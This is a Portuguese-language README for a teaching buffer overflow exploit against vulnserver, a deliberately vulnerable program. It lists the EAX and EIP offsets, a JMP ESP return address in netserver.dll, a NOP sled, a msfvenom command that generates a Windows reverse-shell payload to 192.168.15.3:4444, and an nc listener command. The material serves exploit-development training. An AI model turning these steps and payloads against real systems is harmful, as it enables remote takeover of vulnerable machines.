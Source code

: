 # Exploit - Buffer Overflow Vulnserver

Exploit didático para explorar o vulnserver rodando no Windows 10 Enterprise (x64) e obter reverse shell.

## Vulnserver
https://github.com/stephenbradshaw/vulnserver

## Resumo:

- 2007 bytes para sobrescrever o registrador EAX.
- 4 bytes para sobrescrever o registrador EIP (escrito em little endian) com um endereço de retorno JMP ESP da DLL netserver.dll do próprio software, que não possui proteção ASLR.
- 32 No-Operations para garantir a perfeita execução do payload.
- 351 bytes de payload para realizar a conexão reversa com 192.168.15.3:4444.

## Gerando o mesmo payload no MSFVENOM:
```
msfvenom -p windows/shell_reverse_tcp lhost=192.168.15.3 lport=4444 exitfunc=thread -b "\x00" -f c
```

## Como usar:

É necessário gerar um novo payload de acordo com o IP e porta que deseja receber a conexão reversa.

Após substituir no script prepare para receber a conexão.
```
nc -vnlp 4444
```

Execute o exploit:
```
python3 exploit.py
```
